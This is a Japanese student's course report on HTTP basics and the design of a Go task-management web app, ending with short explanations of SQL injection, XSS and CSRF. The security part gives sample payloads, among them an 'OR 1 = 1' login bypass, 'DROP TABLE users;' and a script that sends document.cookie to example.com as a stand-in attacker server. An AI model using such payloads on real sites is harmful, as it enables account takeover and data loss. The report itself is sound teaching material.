

<h1 style="text-align: center;">
  システム設計演習 レポート
</h1>
<p style="text-align: right;">学籍番号: 20B30790 &nbsp;&nbsp;藤井 &nbsp; 一喜 &nbsp;&nbsp;&nbsp;</p>

## 必須課題

### 1. HTTP 通信の基本

#### 1.1. HTTP Request Methods

参考資料: MDN Web Docs - [HTTP メソッド](https://developer.mozilla.org/ja/docs/Web/HTTP/Methods), Real World HTTP (オライリー・ジャパン)

- GET

  - 指定したリソースの情報を取得する。

- HEAD

  - GET と同様にリソースの情報を取得するが、レスポンスボディは要求しない

- POST

  - 指定したリソースに、情報を送信する際に使用するメソッド。リクエストボディにデータを含めることで、サーバーにデータを送信する。

- PUT

  - 指定したリソースに情報を送信することで、更新を行う目的で使用される

- DELETE
  - 指定したリソースを削除するために使用される

#### 1.2 HTTP Header

参考資料: MDN Web Docs - [HTTP ヘッダー](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers), Real World HTTP (オライリー・ジャパン)

- Host

  - リクエスト先のホスト名とポート番号を指定する
  - 例: Tokyo Tech Portal マトリクスコードログインでは `Host: portal.nap.gsic.titech.ac.jp`となっている

- User-Agent

  - リクエストを送信したクライアントの情報を指定する
  - サーバーはこの情報を元に、クライアントの種類やバージョンを判断する

    (ブラウザ版からのアクセスなのか、モバイルアプリ版からのアクセスなのかを判別など)

    例: `Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36` (Tokyo Tech Portal)

- Accept

  - クライアントが受け付けるレスポンスのメディアタイプを指定する
  - サーバーはこの情報を元に、クライアントが受け付けるレスポンスのメディアタイプを判断する

    例: `text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9` (Tokyo Tech Portal)

- Referer

  - リクエストを送信する前に表示していたページの URL を指定する
  - サーバーはこの情報を元に、リファラログを記録することができる

    例: `https://portal.nap.gsic.titech.ac.jp/GetAccess/Login?Template=userpass_key&AUTHMETHOD=UserPassword`

- Accept-Encoding

  - クライアントが受け付けるレスポンスのエンコーディングを指定する
  - サーバーはこの情報を元に、クライアントが受け付けるレスポンスのエンコーディングを判断する (gzip など)

    例: Tokyo Tech Portal では`Accept-Encoding: gzip, deflate, br`

- Accept-Language

  - クライアントが受け付けるレスポンスの言語を指定する
  - サーバーはこの情報を元に、クライアントが受け付けるレスポンスの言語を判断する (Tokyo Tech Portal では `Accept-Language: en-US,en;q=0.9,ja;q=0.8`)

- Content-Type

  - リクエストボディのメディアタイプを指定する
  - サーバーはこの情報を元に、リクエストボディのメディアタイプを判断する (JSON など)

    例: Tokyo Tech Portal `Content-Type: text/html;charset=UTF-8` (Response Headers)

#### 1.3 HTTP Method Idempotence and Safe

参考資料: MDN Web Docs - [HTTP の安全](https://developer.mozilla.org/ja/docs/Glossary/Safe), [HTTP の幂等](https://developer.mozilla.org/ja/docs/Glossary/Idempotent), Real World HTTP (オライリー・ジャパン)

- Idempotence

  特定のリクエストを複数回送信しても、サーバーが同じ状況であるときは同じ結果を返すことを指す。GET, HEAD, PUT, DELETE は冪等である。

- Safe

  HTTP メソッドが安全であるとは、そのメソッドを実行してもサーバーの状態を変更しないことを指す。GET, HEAD などは安全である。PUT, DELETE は冪等ではあるが、安全ではない。

バックエンドの処理を記述する際に、その HTTP Request Method が満たすべき条件を考えないと、意図しない挙動を起こしてしまう可能性がある。

例えば、副作用のある変更を行う処理を GET メソッドで実装してしまうと、ブラウザのリロードボタンを押すだけで、リソースの変更が行われてしまう。

このように、安全性、冪等性を考慮した実装を行うことは、バックエンドの実装を行う上で重要なことである。

### 2. タスク管理アプリケーション

GitHub リポジトリ: [Link](https://github.com/okoge-kaz/todo-application)

#### 2.1 基本仕様

- S-1.1

  - Entity: Task, User

    「ユーザはタスクの作成（登録），閲覧，削除，編集を行うことができる」を実現するために、以下のような entity を設計した。

    ```go
    type Task struct {
      ID          uint64    `db:"id"`
      Title       string    `db:"title"`
      Description string    `db:"description"`
      CreatedAt   time.Time `db:"created_at"`
      IsDone      bool      `db:"is_done"`
      Status      string    `db:"status"`
      DueDate     time.Time `db:"due_date"`
      Priority    int       `db:"priority"`
    }

    type User struct {
      ID       uint64 `db:"id"`
      Name     string `db:"name"`
      Password []byte `db:"password"`
    }
    ```

    **追加**した項目は、Task.Description, Task.Status, Task.DueDate, Task.Priority である。

    - Task.Description: タスクの詳細を記述する
    - Task.Status: タスクの状態を記述する("TODO", "IN PROGRESS", "DONE" のいずれか)
    - Task.DueDate: タスクの期限を記述する
    - Task.Priority: タスクの優先度を記述する(3 が最高, 1 が最低)

  - Controller

    ユーザーからのリクエストにより、Task の CRUD 操作を行うのは `controllers/task_controller.go` である。

    (一部のデータベース操作に関しては、`models/task.go` に分離している。これは、controller の責務と、DB の責務を分離するためである。)

    以下に、ユーザー操作と、`controllers/task_controller.go` での処理の対応を示す。

    | ユーザー操作     | `controllers/task_controller.go` での処理 |
    | :--------------- | :---------------------------------------- |
    | タスクの作成     | `CreateTask`                              |
    | タスクの閲覧     | `GetTask`                                 |
    | タスクの削除     | `DeleteTask`                              |
    | タスクの編集     | `EditTask`                                |
    | タスクの一覧表示 | `GetTasks`                                |

    Task の完了状態(`Task.IsDone`), Task の状態(`Task.Status`)の変更は、`EditTask` で行える。

    - `CreateTask`: タスクの作成

      session からユーザー ID を取得し、ユーザー ID をもとにタスクを作成する。
      トランザクションを用いて、タスクの作成と、タスクの作成者を紐付ける ownership の作成を atomic に行う。

      該当箇所: `/controllers/task_controller.go` [L87-L135](https://github.com/okoge-kaz/todo-application/blob/main/controllers/task_controller.go#L87-L135)

    - `GetTask`: タスクの閲覧

      `task/:id`の id を取得し、その id をもとにタスクを取得する。
      タスクの作成者であるかどうかをチェックし、作成者でなければ閲覧できない。(アクセスチェックは `controllers/user_controller.go` `TaskAccessCheck` で行う。 該当箇所: [L177-L188](https://github.com/okoge-kaz/todo-application/blob/main/controllers/user_controller.go#L177-L188))

      該当箇所: `/controllers/task_controller.go` [L61-L79](https://github.com/okoge-kaz/todo-application/blob/main/controllers/task_controller.go#L61-L79)

    - `DeleteTask`: タスクの削除

      `task/:id`の id を取得し、その id をもとにタスクを削除する。
      タスクの作成者であるかどうかをチェックし、作成者でなければ削除できない。(アクセスチェックは `controllers/user_controller.go` `TaskAccessCheck` で行う。 (前述)

      該当箇所: `/controllers/task_controller.go` [L202-L227](https://github.com/okoge-kaz/todo-application/blob/main/controllers/task_controller.go#L202-L227)

    - `EditTask`: タスクの編集

      `task/:id`の id を取得し、その id をもとにタスクを取得する。
      タスクの作成者であるかどうかをチェックし、作成者でなければ編集できない。(アクセスチェックは `controllers/user_controller.go` `TaskAccessCheck` で行う。 (前述)

      該当箇所: `/controllers/task_controller.go` [L160-L199](https://github.com/okoge-kaz/todo-application/blob/main/controllers/task_controller.go#L160-L199)

    - `GetTasks`: タスクの一覧表示

      タスクの一覧を取得する。期限が近い順, 優先度が高い順でソートして表示する。ステータスによる絞り込み機能、タイトルまたは Description による keyword 検索機能についても実装している。

      該当箇所: `/controllers/task_controller.go` [L15-L58](https://github.com/okoge-kaz/todo-application/blob/main/controllers/task_controller.go#L15-L58)

  - View

    ユーザーからの画面遷移は以下(エンドポイントと View の対応)

  - タスクの作成 `/task/new`

    

  - タスクの閲覧 `/task/:id`

.    

  - タスク一覧表示 `/list`

    

  - タスクの編集 `/task/:id/edit`

    

  - タスクの削除 `/task/:id/delete`

    `/task/:id`の削除ボタン

- S-1.2

  「タスク検索機能を持つ」を`/list`に実装した。
  実際の検索画面は以下

  

  具体的には以下の機能を実装した。

  - keyword 検索機能

    タスクの Title または Description に keyword が含まれるタスクを検索する。(LIKE 検索)

    該当箇所: `/controllers/task_controller.go` [L43-L50](https://github.com/okoge-kaz/todo-application/blob/main/controllers/task_controller.go#L43-L50)

    具体的な SQL については、`models/task.go`に分離して記述している。

    該当箇所: `/models/task.go` [L8-L48](https://github.com/okoge-kaz/todo-application/blob/main/models/task.go#L8-L48)

  - ステータスによる絞り込み機能

    タスクのステータスによって絞り込みを行う。

    Todo, In Progress, Done の 3 つのステータスを選択できる。
    選択したステータスのタスクのみを表示する。

    該当箇所: 前述の keyword 検索機能と同様に、`models/task.go`に分離して記述している。

- S-1.3

  「ログイン機能を持つ」を実装した。

  | 機能         | エンドポイント | 該当箇所 View               | 該当箇所 Controller                        |
  | ------------ | -------------- | --------------------------- | ------------------------------------------ |
  | ログイン     | `/login`       | `/views/login.html`         | `controllers/user_controller.Login`        |
  | ログアウト   | `/logout`      | なし                        | `controllers/user_controller.Logout`       |
  | ユーザー登録 | `/user/new`    | `/views/new_user_form.html` | `controllers/user_controller.RegisterUser` |

  - ユーザー登録

    フォームから username, password を受け取り、ユーザーを登録する。
    その際に、username がすでに登録されているかどうかをチェックする。(同一 username のユーザーは登録できない仕様)

    該当箇所: 重複チェック `/controllers/user_controller.go.RegisterUser` [L45-L55](https://github.com/okoge-kaz/todo-application/blob/main/controllers/user_controller.go#L45-L55)

  - データベースへの保存

    求められている仕様の通り、password はハッシュ化して保存する。

    該当箇所: `controllers/user_controller.go.RegisterUser` [L57-L62](https://github.com/okoge-kaz/todo-application/blob/main/controllers/user_controller.go#L57-L62)

  - ログイン

    フォームから username, password を受け取り、ユーザーを認証する。
    認証に成功した場合、セッションにユーザー情報を保存する。

    該当箇所: `controllers/user_controller.go.Login` [L147-L177](https://github.com/okoge-kaz/todo-application/blob/main/controllers/user_controller.go#L147-L177)

  - 自分の登録したタスクのみの表示

    タスク情報取得時には、必ずユーザー ID に基づく絞り込みを行っている。そのため、仕様の要件は確保されている。

    該当箇所: `models/task.go` [L8-L64](https://github.com/okoge-kaz/todo-application/blob/main/models/task.go#L8-L64)

- S-1.4

  「簡単なアカウント管理機能を持つ」を実装した。

  | 機能               | エンドポイント          | 該当箇所 View                      | 該当箇所 Controller                          |
  | ------------------ | ----------------------- | ---------------------------------- | -------------------------------------------- |
  | アカウント情報変更 | `/user/change_password` | `/views/change_password_form.html` | `controllers/user_controller.ChangeUserInfo` |
  | アカウント削除     | `/user/delete`          | なし                               | `controllers/user_controller.DeleteUser`     |

  - アカウント情報変更

    フォームから nwe_username, new_password を受け取り、ユーザー情報を更新する。
    更新前に、変更前 username, 変更前 password による認証を行う。

    その際に、new_username がすでに登録されているかどうかをチェックする。(同一 username のユーザーは登録できない仕様)
    また、password はハッシュ化して保存する。

    該当箇所: `/controllers/user_controller.go.ChangeUserInfo` [L81-L137](https://github.com/okoge-kaz/todo-application/blob/main/controllers/user_controller.go#L81-L137)

  - アカウント削除

    アカウントを削除することが可能である。ユーザー情報のみ削除し、タスク情報は削除しない。
    該当箇所: `/controllers/user_controller.go.DeleteUser` [L212-L239](https://github.com/okoge-kaz/todo-application/blob/main/controllers/user_controller.go#L212-L239)

- S-2.1

  「タスクに優先度や締切の概念を追加し，優先度に応じた強調表示，締切までのカウントダウンなどを表示する」を部分的に実装した。

  タスクの優先度(`task.Priority`)、期限(`task.Deadline`)を追加した。また、期限、優先度による一覧表示時のソートを実現した。

  しかし、カウントダウン機能は実装できていない。

  期限、優先度によるソートは`models/task.go`に詳しい実装がある。

  該当箇所: `/models/task.go` [L8-L48](https://github.com/okoge-kaz/todo-application/blob/main/models/task.go#L8-L48)

- S-2.2

  「タグやカテゴリにより，タスクをグルーピングする機能を追加し，検索機能を強化する」を実装した。

  具体的には、タスクのステータス(例: Todo, In Progress, Done)を加えることで検索機能を強化した。

  例えば、Todo のタスクのみを表示する、In Progress のタスクのみを表示する、Done のタスクのみを表示する、などが可能になった。

  該当箇所: `/models/task.go` [L8-L48](https://github.com/okoge-kaz/todo-application/blob/main/models/task.go#L8-L48)

- その他

  - CSS あてによる見た目の改善

  - ヘッダー部分に Home, Login, Sign Up の動線を追加

  - ログイン時とログアウト時で、Home のリンク動線を変更

#### 2.2 シークエンス図

ユーザーとアプリケーションとのやり取りは、`/router/router.go`の内容が主。また、アプリケーションと DB とのやり取りは、`/models/task.go`, `/models/user.go`が担うべきであるが、今回は`/controllers/*`にも DB との処理が記載されている。 シークエンス図では、ログインチェックや、詳細なやり取りは省略し、主要な処理のみを記載した。

- タスク編集機能



- タスク検索機能


- ログイン機能


#### 2.3 データベース設計

テーブルの関係性は以下の通り。

- tasks

  タスクの情報を格納するテーブル。(primary key: id)

- users

  ユーザーの情報を格納するテーブル。(primary key: id)

- ownerships

  ユーザーとタスクの関係を格納するテーブル。(primary key: [user_id, task_id])


## 加点課題

### 3. Web アプリケーション開発

#### 3.1. Stateless Type and Session Type

- Stateless Type

  - サーバーはクライアントの状態を保持しない
  - クライアントはリクエストごとにサーバーに対して認証情報を送信する必要がある

- Session Type
  - サーバーはクライアントの状態を保持する
  - クライアントはリクエストごとにサーバーに対して認証情報を送信する必要がない

#### 3.2 SQL Injection

参考: 詳解セキュリティコンテスト 9章 SQL Injection

- SQL Injection
  - SQL インジェクションとは、Web アプリケーションの SQL クエリに対して、意図しない SQL 文を注入する攻撃手法のこと
  - `'SELECT * FROM users WHERE password = ' + password` のように、ユーザーからの入力をそのまま SQL 文に埋め込むと、意図しない SQL 文が実行されてしまう。例えば、`{password} =  OR 1 = 1;` のような入力を受け取った場合、`SELECT * FROM users WHERE password = {password} OR 1 = 1;` という SQL 文が実行されてしまう。これにより、本来はアクセスすることのできないデータにアクセスできてしまう。
  - もしくは、破壊的な SQL 文 (例: `DROP TABLE users;`) を実行させることで、データベースの破壊を引き起こすこともできる。

- 対策

  ユーザーからの入力をそのまま SQL 文に埋め込まないようにする。具体的には、エスケープ処理や、バリデーションを行うことが考えられる。

#### 3.3 XSS (Cross Site Scripting) and CSRF (Cross Site Request Forgery)

参考: 詳解セキュリティコンテスト 8章 XSS, CSP, CSRF

- XSS (Cross Site Scripting)

  - XSS とは、Web アプリケーションに対して、意図しない JavaScript を注入する攻撃手法のこと
  - XSS を行うと、クライアントの Cookie を盗み出したり、クライアントの Cookie を改ざんしたりすることができる

  具体例: `<script> document.location = 'http://example.com/?cookie=' + document.cookie </script>` という JavaScript がクライアント側で実行されると、クライアントの Cookie が `http://example.com/?cookie=...` に送信されてしまう。example.com を攻撃者の所有するサーバーにすることで、クライアントの Cookie を盗み出すことができる。

  もしくは、`<script> window.location = 'http://example.com/ </script>` という JavaScriptを埋め込むことに成功すると、そこを訪れたユーザーを任意のサイトに飛ばすことができる。

  - 対策:

    - 開発者としては、ユーザーからの入力をそのまま HTML に埋め込まないようにする。具体的には、エスケープ処理や、バリデーションを行うことが考えられる。

- CSRF (Cross Site Request Forgery)

  - XSS との相違点は、クライアント側がログインしている正規のサービスに対して、意図しないリクエストを送信することで、攻撃を行う点である。XSSの場合は、Cookieなどクライント側の情報を盗み出したり、別サイトに誘導したりする形であったが、CSRFの場合は、クライアントがログインしている正規のサービスに対してユーザーの意図に反したリクエストを送ってしまう攻撃手法となっている。

  - 対策
    - Referer チェック
      - リクエストの Referer ヘッダーをチェックして、リクエストが正規のサービスから送信されたものかどうかを確認する
    - 確認
      - センシティブな操作(例: ユーザーの削除)を行う前に、ユーザーに確認を求める

#### 3.4 Server Side Rendering

- SSR (Server Side Rendering)
  - SSR とは、クライアント側で HTML を生成するのではなく、サーバー側で HTML を生成することのこと
  - SSR を行うと、クライアント側で HTML を生成するのではなく、サーバー側で HTML を生成することができる

#### 3.5 自由記述欄
